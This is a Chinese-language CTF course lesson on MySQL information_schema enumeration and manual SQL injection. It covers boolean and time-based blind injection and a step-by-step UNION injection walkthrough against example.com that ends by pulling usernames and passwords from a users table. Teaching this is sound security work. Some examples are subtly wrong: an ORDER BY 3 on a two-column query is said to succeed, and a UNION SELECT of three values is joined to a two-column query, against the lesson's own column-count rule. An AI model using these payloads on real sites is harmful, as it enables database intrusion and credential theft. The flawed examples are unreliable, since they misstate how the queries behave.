# CTF入门课程：P39：SQL查询与手工注入 🛡️





在本节课中，我们将学习MySQL数据库安全的核心部分——SQL查询与手工注入。我们将从了解数据库的基本结构开始，逐步学习如何利用SQL语句进行信息探测和数据提取，最终理解手工注入攻击的原理和步骤。



## 数据库结构初探





上一节我们介绍了MySQL的基础操作，本节中我们来看看MySQL数据库的内部结构，特别是`information_schema`数据库，它是我们进行信息收集的关键。



`information_schema`是MySQL的一个系统数据库，它存储了关于所有其他数据库的元数据（metadata）。我们可以通过查询其中的特定表来获取数据库名、表名和列名等信息。



以下是`information_schema`中我们需要关注的三张核心表：



*   **`SCHEMATA`表**：此表记录了当前MySQL服务器中所有数据库的名称。关键列是`SCHEMA_NAME`。
*   **`TABLES`表**：此表记录了所有数据库中的所有表的信息。关键列是`TABLE_SCHEMA`（数据库名）和`TABLE_NAME`（表名）。
*   **`COLUMNS`表**：此表记录了所有表中所有列的信息。关键列是`TABLE_SCHEMA`（数据库名）、`TABLE_NAME`（表名）和`COLUMN_NAME`（列名）。



我们可以使用以下SQL命令来查询这些信息：



```sql
-- 查询所有数据库名
SELECT SCHEMA_NAME FROM information_schema.SCHEMATA;
-- 或使用简写
SHOW DATABASES;

-- 查询指定数据库（例如‘mysql‘）中的所有表名
SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = ‘mysql‘;



-- 查询指定表（例如‘user‘）中的所有列名
SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME = ‘user‘;
```

## 基础SQL语句与逻辑判断





了解了数据库结构后，我们使用基础的SQL语句进行更深入的操作。`SELECT`语句配合`WHERE`子句可以精确查询数据，而`WHERE`子句后的逻辑判断是注入攻击的切入点。

以下是一个示例数据表`students`的操作：



```sql
-- 查询students表的所有内容
SELECT * FROM students;

-- 查询姓名为‘韩寒‘的记录
SELECT * FROM students WHERE name = ‘韩寒‘;



-- 利用永真条件（1=1）使WHERE子句恒成立，返回所有记录
SELECT * FROM students WHERE name = ‘韩寒‘ AND 1=1;



-- 利用永假条件（1=2）使WHERE子句恒不成立，不返回任何记录
SELECT * FROM students WHERE name = ‘韩寒‘ AND 1=2;
```

## 使用ORDER BY判断查询列数



在联合查询注入前，我们需要知道当前查询语句返回的列数。`ORDER BY`子句可以根据列序号对结果进行排序。当指定的列序号超出实际列数时，数据库会报错。

```sql
-- 假设原查询返回3列，以下语句正常执行
SELECT name, age FROM students ORDER BY 3;
-- 指定不存在的第4列，将会报错
SELECT name, age FROM students ORDER BY 4; -- 报错
```

通过递增`ORDER BY`后的数字并观察是否报错，可以判断出确切的列数。

## 联合查询（UNION）注入





联合查询`UNION`操作符用于合并两个或多个`SELECT`语句的结果集。这是手工注入中提取数据的主要手段。使用`UNION`有两个关键要求：
1.  每个`SELECT`语句必须拥有相同数量的列。
2.  列的数据类型必须相似。



`UNION`会自动去重，而`UNION ALL`会包含所有重复的行。

```sql
-- 基础联合查询，将两个结果集合并
SELECT name, age FROM students WHERE name=‘韩寒‘
UNION
SELECT 1, 2;



-- 利用联合查询获取系统信息
SELECT name, age FROM students WHERE name=‘韩寒‘
UNION
SELECT database(), version(), user();
```
在上面的例子中，`database()`、`version()`、`user()`是MySQL的内置函数，分别用于返回当前数据库名、数据库版本和当前用户名。

## 利用函数与条件判断进行盲注

当页面不会直接回显数据库数据，但会根据SQL语句的执行情况返回不同状态（如正常、错误、时间延迟）时，就需要使用盲注技术。

**基于布尔（Boolean）的盲注**：通过逻辑判断改变页面的返回结果。

```sql
-- 使用IF和SUBSTRING函数逐位猜解用户名
-- 猜解当前用户名的第一个字符是否为‘r‘
SELECT * FROM articles WHERE id=1 AND IF(SUBSTRING(user(),1,1)=‘r‘, 1, 0);
-- 猜解表名的第一个字符
SELECT * FROM articles WHERE id=1 AND IF(SUBSTRING((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=database() LIMIT 0,1),1,1)=‘a‘, 1, 0);
```



**基于时间（Time）的盲注**：通过条件语句触发时间延迟来判断逻辑真假。



```sql
-- 如果当前用户第一个字符是‘r‘，则延迟5秒
SELECT * FROM articles WHERE id=1 AND IF(SUBSTRING(user(),1,1)=‘r‘, SLEEP(5), 0);
```

`SUBSTRING(string, start, length)`函数用于截取字符串。`SLEEP(seconds)`函数让数据库等待指定秒数。



## 手工注入实战步骤

最后，我们将上述知识串联起来，模拟一个完整的手工SQL注入过程。假设目标URL为：`http://example.com/article.php?id=14`



1.  **确认注入点**：通过添加永真和永假条件观察页面变化。
    ```
    http://example.com/article.php?id=14 AND 1=1 -- 页面正常
    http://example.com/article.php?id=14 AND 1=2 -- 页面异常（无数据或错误）
    ```
    `--`是SQL中的单行注释符，用于注释掉原查询后的剩余部分。

2.  **判断列数**：使用`ORDER BY`子句。
    ```
    http://example.com/article.php?id=14 ORDER BY 5 -- 报错
    http://example.com/article.php?id=14 ORDER BY 4 -- 正常
    http://example.com/article.php?id=14 ORDER BY 3 -- 正常
    ```
    由此判断，当前查询返回**3列**。



3.  **确定回显位**：使用`UNION SELECT`，并用数字占位。
    ```
    http://example.com/article.php?id=14 UNION SELECT 1,2,3
    ```
    观察页面，看数字“1”、“2”、“3”哪个位置被显示出来，该位置即为可回显数据的位置（例如，数字2被显示）。



4.  **获取数据库信息**：在回显位替换为想要查询的信息。
    ```
    http://example.com/article.php?id=14 UNION SELECT 1, database(), 3 -- 获取当前数据库名
    http://example.com/article.php?id=14 UNION SELECT 1, version(), 3 -- 获取数据库版本
    http://example.com/article.php?id=14 UNION SELECT 1, user(), 3    -- 获取当前用户
    ```

5.  **提取表名、列名、数据**：利用`information_schema`进行查询。
    ```
    -- 获取所有表名（假设当前数据库为‘testdb‘）
    http://example.com/article.php?id=14 UNION SELECT 1, TABLE_NAME, 3 FROM information_schema.TABLES WHERE TABLE_SCHEMA=‘testdb‘ LIMIT 0,1

    -- 获取指定表（如‘users‘）的所有列名
    http://example.com/article.php?id=14 UNION SELECT 1, COLUMN_NAME, 3 FROM information_schema.COLUMNS WHERE TABLE_NAME=‘users‘

    -- 最终提取数据（如‘users‘表中的‘username‘和‘password‘）
    http://example.com/article.php?id=14 UNION SELECT 1, username, password FROM users
    ```

## 总结





本节课中我们一起学习了SQL查询与手工注入的核心知识。我们从剖析MySQL的`information_schema`系统数据库开始，掌握了如何查询数据库、表和列的结构信息。接着，我们深入练习了`SELECT`、`WHERE`、`ORDER BY`、`UNION`等关键SQL语句，理解了它们在注入中的用途。我们重点探讨了基于布尔和基于时间的盲注技术，利用`IF()`、`SUBSTRING()`、`SLEEP()`等函数进行条件判断和数据猜解。最后，通过一个完整的手工注入实战步骤，我们将所有知识点串联起来，演示了从发现注入点到最终获取敏感数据的全过程。理解这些原理是进行Web安全测试和防御SQL注入攻击的基础。